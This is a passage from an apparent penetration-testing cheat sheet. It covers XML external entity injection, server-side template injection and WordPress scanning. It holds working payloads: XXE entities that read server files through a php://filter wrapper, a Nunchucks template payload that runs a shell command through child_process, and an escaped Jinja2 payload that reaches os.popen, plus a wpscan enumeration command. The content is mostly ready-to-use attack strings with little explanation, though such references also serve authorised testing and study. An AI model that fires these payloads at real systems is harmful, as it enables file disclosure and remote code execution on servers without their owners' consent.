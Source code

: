 ```xml
<foo>Hello &file;</foo>
```
### Get Link
```xml
<!DOCTYPE foo [
    <!ENTITY file SYSTEM "http://example.com/path">
]>
<foo>Hello &file;</foo>
```
```xml
<!DOCTYPE foo [
    <!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=index.php">
]>
<foo>Hello &file;</foo>
```

# SSTI
[Github Websites Vulnerable To SSTI](https://github.com/DiogoMRSilva/websitesVulnerableToSSTI)

### Test
```
{{1+1}}
${1+1}
<%= 1+1 %>
${{1+1}}
#{1+1}
```

### Nunchucks (Nodejs)
```
{{range.constructor("console.log(123)")()}}
{{range.constructor("return global.process.mainModule.require('child_process').execSync('id')")()}}
```

### Python (Jinja2)
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

### Golang
```
{{.}}
```

# CMS
### Scaning
```bash
wpscan --force update -e --url IP --disable-tls-checks
```
